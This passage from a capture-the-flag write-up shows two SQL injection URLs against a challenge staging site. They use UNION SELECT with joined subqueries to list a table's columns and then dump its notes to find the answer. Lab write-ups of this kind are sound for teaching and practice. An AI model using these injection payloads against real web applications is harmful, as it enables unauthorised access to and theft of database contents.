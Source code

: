 ![Todo](todo.png)

So we indeed have a todo table - let's see if we can identify the columns.

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select null from information_schema.columns where table_name="todo")a JOIN (select column_name from information_schema.columns where table_name="todo")b JOIN (select null from information_schema.columns where table_name="todo")c JOIN (select null from information_schema.columns where table_name="todo")d JOIN (select null from information_schema.columns where table_name="todo")e JOIN (select null from information_schema.columns where table_name="todo")f JOIN (select null from information_schema.columns where table_name="todo")g--
```

This query informs us that the `todo` table has `id`, `note`, and `completed` columns.

Let's see if we can pull back the `notes`:

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select null from todo)a JOIN (select note from todo)b JOIN (select null from todo)c JOIN (select null from todo)d JOIN (select null from todo)e JOIN (select null from todo)f JOIN (select null from todo)g--
```

We succesfully reveal the entire contents of the todo table and reveal our answer of `clerk`:

![Answer](answer.png)